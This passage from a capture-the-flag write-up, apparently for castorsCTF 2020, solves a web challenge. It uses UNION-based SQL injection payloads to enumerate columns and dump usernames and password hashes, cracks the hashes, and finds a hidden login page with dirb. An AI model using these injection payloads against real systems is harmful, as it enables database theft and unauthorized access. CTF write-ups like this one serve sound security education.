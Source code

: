 So that `Users` table looks suspicious, that's not related to cars at all. We can further check all the columns as well, like so:

`CHAR(39) AND 1=2 UNION SELECT version(),group_concat(column_name),database(),3,4 from information_schema.columns where table_schema=database() -- `

which gives us:

{% highlight html %}
Id,Type,Model,Make,Year,Username,Password
{% endhighlight %}

So, seems like we should be taking `Username` and `Password` from the `Users` table.

`CHAR(39) AND 1=2 UNION SELECT version(),concat(Username,':',Password),database(),3,4 from Users`

Gives us back (after formatting):

```
admin@cybercastors.com:cf9ee5bcb36b4936dd7064ee9b2f139e
admin@powerpuffgirls.com:fe87c92e83ff6523d677b7fd36c3252d
jeff@homeaddress.com:d1833805515fc34b46c2b9de553f599d
moreusers@leakingdata.com:77004ea213d5fc71acf74a8c9c6795fb
```

The hashes are simple passwords easily cracked with an online Rainbow table, and they are:

```
naruto
powerpuff
pancakes
fun
```

So, nothing related to the flag. Discord was mentioning something about "if only there was a secret portal".

Running `dirb` (or whatever your favorite directory finder is), we end up finding the following web page:

* http://web1.cybercastors.com:14435/dealer

Going to this, we see it asks for email/password credentials. Trying the `admin@cybercastors.com` email and `naruto` password from above, we get the flag:

&nbsp;
![]({{ site.baseurl }}/img/castorsCTF2020/lottery/flag.png)
&nbsp;

Flag is `castorCTF{daT4B_3n4m_1s_fuN_N_p0w3rfu7}`.

&nbsp;
&nbsp;

## Quiz
> Our intern, Jeff, received a brief introduction to Golang and decided to write a Web app that quizzes users.
>
> http://web1.cybercastors.com:14436
